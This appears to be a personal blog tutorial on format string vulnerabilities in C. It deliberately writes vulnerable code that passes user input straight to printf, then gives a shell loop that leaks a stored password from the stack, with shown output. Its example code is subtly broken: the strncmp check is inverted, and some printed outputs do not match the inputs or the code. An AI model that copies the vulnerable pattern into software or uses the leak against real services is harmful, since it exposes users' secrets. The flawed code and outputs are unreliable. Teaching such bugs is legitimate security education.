 ```yaml
---
title: Fromat String Vulnerabilities
updated: 2018-11-22 13:00
---
```


## Format strings

Format strings are used in may languages to specify the type of output.
These types can range from strings, integers all the way up to pointers.

Some examples:
```
%d - Integer
%s - String
%c - Character
%x - Hexadecimal
```
Although harmless when used in the intended fashion, these strings can be extremely dangerous if code is written in the unintended manner. After all it should just work shouldn't it ;).

## What the leak!

A couple of months ago when I was tackling the format exercises of protostar I came across format string vulnerabilities. The basic idea is that an attacker is able to leak information using format strings.

Let's take a look at a normal C program.

```c
...
int main() {
    char abc[32];
    fgets(abc, 32, stdin);
    printf("%s", abc);
    return 0;
}
...
```

On running this program we get our expected behavior...user gives, user gets.

```sh
$ gcc main.c
$ ./a.out
test
test
```

Notice that this program is not vulnerable to the buffer overflow attack as it uses the `fgets()` function. Now let's take a look at the same program, but with a slight modification.

```c
...
int main() {
    char abc[32];
    fgets(abc, 32, stdin);
    printf(abc);
    return 0;
}
...
```

The only difference is that `abc` is passed as the first parameter, which is supposed to be for the format string. Let's take a look.

```sh
$ gcc main.c
$ ./a.out
test
test
```

Hmmm, nothing interesting yet. Let's go a step further and try adding format specifiers to our input...

```sh
$ ./a.out
test %s
test test %s
```

Hey, that's our input... basically what's happening here is that, since we have not specified the second parameter of printf, it is using garbage as an address for the `%s`, however this so called garbage is an address on the stack. And from our knowledge, the stack contains variables. So it's printing the value of `abc`.

Let's take this a little further.

```c
...
int main() {
    const char *super_secret_creds = "time_mr_freeman";
    char pass[32];
    printf("Enter the pass:");
    fgets(pass, 32, stdin);
    if(strncmp(pass, super_secret_creds, 15)) {
        printf("Welcome to Black Mesa, Dr. Gordon Freeman\n");
    } else {
        printf("bzzzt! invalid password:");
        printf(pass);
    }
}
...
```

Compiling...executing...

```sh
$ gcc main.c
$ ./a.out
Enter the pass:test
bzzzt! invalid password:test
```

Now I know that you can easily get the creds using the `strings` command. But for sake of realism let's assume that this binary is being served as a service on some remote server. This means that I aka the attacker does not have access to the binary, I can only interact with it.

```sh
$ ./a.out
Enter the pass:text %s
bzzzt! invalid password:test bzzzt! invalid password
$ ./a.out
Enter the pass:text %1$s
bzzzt! invalid password:test bzzzt! invalid password
```

Notice the new notation `%1$s`. What this means is that print the data at position 1 in this location. Let me elaborate...

```c
...
int main() {
    int a = 33, b = 1337;
    printf("%2$d %1$d", a, b);
    return 0;
}
...
```
You get `1337 33` as the output and not `33 1337`.

Now for our case it's a little painful to go on typing the numbers so lets automate it...if you don't understand shellscript, I can't help you, try googling and learning it first.

```sh
#!/bin/sh
max=16
b="\$s"
for i in `seq 2 $max`
do
    echo "%$i$b" | ./a.out
done
```

Make it executable and run it...

```sh
$ chmod +x exploit.sh
$ ./exploit.sh
...garbage...
...more garbage...
Enter the pass:bzzzt! invalid password:time_mr_freeman
...garbage...
$ ./a.out
Enter the pass:time_mr_freeman
Welcome to Black Mesa, Dr. Gordon Freeman
```

And there you have it. A format string exploit. We've successfully leaked memory and got the credentials.

## The fix

So how do we fix it? Simple...don't write crappy code. We all do, so [here](https://en.wikipedia.org/wiki/Uncontrolled_format_string#Compilers_Prevention)'s a little guide to helping you not write code with format string vulnerabilities.

## Source code
[format str exp](https://github.com/dsouzadyn/format_str_exp)
